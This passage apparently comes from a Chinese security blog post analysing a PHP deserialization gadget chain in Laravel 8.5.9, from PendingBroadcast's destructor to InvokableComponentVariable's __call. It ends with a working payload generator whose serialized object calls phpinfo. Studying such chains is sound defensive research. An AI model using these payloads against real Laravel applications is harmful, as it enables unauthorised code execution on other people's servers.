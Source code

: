 ```
laravel859\vendor\laravel\framework\src\Illuminate\Broadcasting\PendingBroadcast.php
```

```
public function __destruct()
{
        $this->events->dispatch($this->event);
    }
```

这里的$this->events和$this->event可控

同样这里有两种方法，要不使$this->events为某个拥有dispatch方法的类，我们可以调用这个类的dispatch方法

要不就使$this->events为某个类，并且该类没有实现dispatch方法却有__call方法，那么就可以调用这个__call方法了

看到

```
laravel859\vendor\laravel\framework\src\Illuminate\View\InvokableComponentVariable.php
```

```
public function __call($method, $parameters)
{
        return $this->__invoke()->{$method}(...$parameters);
    }

    /**
     * Resolve the variable.
     *
     * @return mixed
     */
    public function __invoke()
{
        return call_user_func($this->callable);
    }
```

这里的_call会直接调用__invoke，$this->callable也是我们可控的，不过这里只能调用phpinfo，比较鸡肋，payload如下

```
<?php
namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($events, $event) {
            $this->events = $events;
            $this->event = $event;
        }
    }
}
namespace Illuminate\View {
    class InvokableComponentVariable {
        protected $callable;
        public function __construct($callable)
{
        $this->callable = $callable;
    }
    }
}

namespace {
    $b = new Illuminate\View\InvokableComponentVariable('phpinfo');
    $a = new Illuminate\Broadcasting\PendingBroadcast($b, 1);
    print(urlencode(serialize($a)));
}
```